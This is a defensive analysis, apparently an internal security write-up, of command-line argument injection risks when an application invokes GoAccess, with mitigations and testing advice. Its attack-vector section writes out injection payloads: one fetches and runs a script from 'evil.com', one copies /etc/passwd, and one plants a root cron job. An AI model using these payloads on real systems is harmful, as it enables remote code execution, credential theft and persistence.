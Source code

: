 ## Deep Dive Analysis: Command-Line Argument Injection for GoAccess Integration

This document provides a deep analysis of the Command-Line Argument Injection attack surface when integrating the GoAccess application (https://github.com/allinurl/goaccess) into our system. We will explore the potential vulnerabilities, elaborate on the risks, and provide detailed recommendations for mitigation.

**1. Understanding the Attack Surface: Command-Line Argument Injection with GoAccess**

The core of this attack surface lies in the interaction between our application and the GoAccess executable. We are essentially acting as a wrapper or orchestrator, constructing and executing command-line calls to GoAccess. The danger arises when the data used to build these commands originates from untrusted sources, such as user input, external APIs, or even configuration files that might be compromised.

**Key Aspects of GoAccess that Contribute to the Risk:**

* **Extensive Command-Line Options:** GoAccess boasts a rich set of command-line options for specifying input formats, output destinations, filtering criteria, and more. While powerful, this also provides a large attack surface if these options can be manipulated.
* **Direct System Interaction:** When GoAccess executes, it interacts directly with the operating system. Maliciously injected arguments can leverage this interaction to execute arbitrary commands, manipulate files, or even compromise the entire system.
* **Potential for Privilege Escalation (Less Likely but Possible):**  If the application running GoAccess has elevated privileges, a successful command injection could lead to privilege escalation.

**2. Elaborating on the Attack Vectors:**

Beyond the simple `rm -rf` example, let's explore more nuanced attack vectors:

* **Command Chaining:** Attackers can use operators like `;`, `&&`, or `||` to execute multiple commands. For example:
    * `"; wget http://evil.com/malware.sh && chmod +x malware.sh && ./malware.sh #"`  This downloads and executes a malicious script.
    * `"; cat /etc/passwd > /tmp/creds.txt #"` This exfiltrates sensitive information.
* **Output Redirection:** Attackers can redirect the output of GoAccess to overwrite critical files or append malicious content.
    * `"> /etc/cron.d/evil_job echo '* * * * * root /path/to/malicious/script' #"` This could create a cron job to run a malicious script periodically.
* **Leveraging GoAccess Options for Malicious Purposes:**
    * **`-o` (Output File):**  An attacker might try to overwrite system files by injecting a path like `/etc/passwd` or `/etc/shadow`. While GoAccess might not directly execute code through this, it can be used for data corruption.
    * **`-p` (Configuration File):** If an attacker can control the path to the configuration file, they could point it to a maliciously crafted configuration that contains harmful directives (though this is less direct command injection).
    * **`-l` (Log File):** While the example uses the log file path, other options related to input could also be targets.
* **Exploiting Shell Features:** Attackers can leverage shell features like backticks or `$(...)` for command substitution.
    * `"; $(whoami) #"` This would execute the `whoami` command, and while seemingly harmless, demonstrates the capability to execute arbitrary commands.
* **Environment Variable Manipulation (Less Direct):** While not directly injecting into GoAccess arguments, if the application sets environment variables used by GoAccess or the underlying shell, these could potentially be manipulated for malicious purposes.

**3. Deeper Dive into the Impact:**

The impact of a successful command-line argument injection can be catastrophic:

* **Complete System Compromise:**  As highlighted, attackers can gain full control of the server, install backdoors, and use it as a launchpad for further attacks.
* **Data Breach:** Sensitive data stored on the server or accessible through it can be stolen.
* **Denial of Service (DoS):** Attackers can execute commands that consume resources, crash the server, or disrupt the application's functionality.
* **Reputational Damage:** A security breach can severely damage the organization's reputation and erode customer trust.
* **Legal and Financial Consequences:** Data breaches can lead to significant legal and financial penalties.

**4. Responsibilities of the Development Team:**

Preventing this vulnerability is a shared responsibility. The development team plays a crucial role in:

* **Secure Design:**  Prioritize designs that minimize or eliminate the need for dynamic command construction. Explore alternative approaches like using GoAccess's API (if available and suitable) or predefined configurations.
* **Secure Coding Practices:** Implement robust input validation and sanitization techniques. Treat all external data as potentially malicious.
* **Code Reviews:** Conduct thorough code reviews to identify potential injection points and ensure adherence to security best practices.
* **Security Testing:** Integrate security testing, including penetration testing and static/dynamic analysis, into the development lifecycle to identify vulnerabilities early.
* **Dependency Management:** Keep GoAccess and other dependencies up-to-date to patch known vulnerabilities.
* **Security Awareness:** Stay informed about common web application vulnerabilities and secure coding practices.

**5. Detailed Mitigation Strategies:**

Let's expand on the provided mitigation strategies with more actionable details:

* **Avoid Dynamic Command Construction (Strongly Recommended):**
    * **Predefined Configurations:** Store GoAccess configurations in files and load them directly using the `-p` option with a hardcoded, safe path.
    * **API or Library Integration (If Available):** Explore if GoAccess offers an API or library that can be used programmatically, avoiding direct command-line interaction.
    * **Limited Parameterization:** If dynamic construction is unavoidable, limit the parameters that can be influenced by user input to a very restricted set of safe options.

* **Input Validation and Sanitization (Crucial):**
    * **Whitelisting:**  Define a strict set of allowed characters, patterns, and values for each input field used to construct GoAccess arguments. Reject any input that doesn't conform.
    * **Blacklisting (Less Effective, Use with Caution):**  Maintain a list of known malicious characters or patterns to block. However, blacklisting is often incomplete and can be bypassed.
    * **Encoding/Escaping:**  Use appropriate encoding or escaping mechanisms provided by the operating system or programming language to neutralize potentially harmful characters. For shell commands, this might involve escaping special characters like `;`, `&`, `|`, `<`, `>`, `(`, `)`, etc.
    * **Contextual Sanitization:**  Sanitize input based on how it will be used in the GoAccess command. For example, file paths require different validation than numerical parameters.
    * **Input Length Limits:**  Impose reasonable length limits on input fields to prevent buffer overflows or excessively long command lines.

* **Principle of Least Privilege (Essential for Damage Control):**
    * **Dedicated User Account:** Run the GoAccess process under a dedicated user account with the absolute minimum privileges required to perform its tasks. Avoid running it as root or with unnecessary permissions.
    * **Restricted File System Access:**  Limit the GoAccess process's access to only the necessary files and directories. Use file system permissions to enforce this.
    * **Consider Containerization:** Running GoAccess within a container (like Docker) can provide an additional layer of isolation and limit the impact of a successful attack.

**Additional Mitigation Considerations:**

* **Security Headers:** Implement relevant security headers in the application's HTTP responses to protect against other types of attacks that might be used in conjunction with command injection.
* **Regular Security Audits:** Conduct regular security audits of the application and its integration with GoAccess to identify potential vulnerabilities.
* **Monitoring and Logging:** Implement robust monitoring and logging to detect suspicious activity, including unusual command executions or errors related to GoAccess.
* **Rate Limiting:** If the application allows users to trigger GoAccess execution, implement rate limiting to prevent abuse.

**6. Testing and Verification:**

Thorough testing is crucial to ensure the effectiveness of mitigation strategies:

* **Unit Tests:** Write unit tests to verify that input validation and sanitization functions are working correctly.
* **Integration Tests:** Test the integration between the application and GoAccess with various inputs, including known malicious payloads.
* **Penetration Testing:** Engage security professionals to conduct penetration testing to identify vulnerabilities that might have been missed.
* **Static and Dynamic Analysis:** Use static analysis tools to scan the codebase for potential command injection vulnerabilities and dynamic analysis tools to observe the application's behavior during execution.
* **Fuzzing:** Use fuzzing techniques to provide a wide range of unexpected and potentially malicious inputs to the application and GoAccess.

**7. Long-Term Security Considerations:**

* **Security Awareness Training:**  Regularly train developers on secure coding practices and common web application vulnerabilities.
* **Secure Development Lifecycle (SDLC):** Integrate security considerations into every stage of the development lifecycle.
* **Vulnerability Management:** Establish a process for identifying, tracking, and remediating vulnerabilities.
* **Incident Response Plan:** Have a well-defined incident response plan in place to handle security breaches effectively.

**Conclusion:**

Command-Line Argument Injection is a critical vulnerability that can have severe consequences when integrating external tools like GoAccess. By understanding the attack surface, implementing robust mitigation strategies, and prioritizing security throughout the development lifecycle, we can significantly reduce the risk of exploitation. The key is to treat all external input with suspicion and avoid constructing commands dynamically whenever possible. Continuous vigilance and proactive security measures are essential to protect our application and infrastructure.
